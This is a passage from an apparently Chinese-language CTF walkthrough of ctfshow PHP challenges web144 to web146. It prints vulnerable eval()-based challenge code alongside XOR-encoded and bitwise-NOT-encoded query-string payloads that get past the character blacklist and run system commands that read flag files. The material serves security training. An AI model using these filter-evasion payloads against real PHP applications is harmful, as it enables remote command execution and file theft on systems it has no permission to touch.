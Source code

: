 ```
?v1=1&v2=-("%0c%06%0c%0b%05%0d"^"%7f%7f%7f%7f%60%60")("%03%01%0b%00%06%00"^"%60%60%7f%20%60%2a")&v3=1
```



#### web145

```php
<?php

/*
# -*- coding: utf-8 -*-
# @Author: h1xa
# @Date:   2020-10-13 11:25:09
# @Last Modified by:   h1xa
# @Last Modified time: 2020-10-18 17:41:33

*/


highlight_file(__FILE__);
if(isset($_GET['v1']) && isset($_GET['v2']) && isset($_GET['v3'])){
    $v1 = (String)$_GET['v1'];
    $v2 = (String)$_GET['v2'];
    $v3 = (String)$_GET['v3'];
    if(is_numeric($v1) && is_numeric($v2)){
        if(preg_match('/[a-z]|[0-9]|\@|\!|\+|\-|\.|\_|\$|\}|\%|\&|\;|\<|\>|\*|\/|\^|\#|\"/i', $v3)){
                die('get out hacker!');
        }
        else{
            $code =  eval("return $v1$v3$v2;");
            echo "$v1$v3$v2 = ".$code;
        }
    }
}
```

这题ban掉了异或运算符^,同时也ban掉了加减乘除

但是我们还可以考虑构造三目运算符配合取反

payload:

```
/?v1=1&v2=1&v3=?(~%8C%86%8C%8B%9A%92)(~%8B%9E%9C%DF%99%D5):
```



#### web146

```php
<?php

/*
# -*- coding: utf-8 -*-
# @Author: h1xa
# @Date:   2020-10-13 11:25:09
# @Last Modified by:   h1xa
# @Last Modified time: 2020-10-18 17:41:33

*/


highlight_file(__FILE__);
if(isset($_GET['v1']) && isset($_GET['v2']) && isset($_GET['v3'])){
    $v1 = (String)$_GET['v1'];
```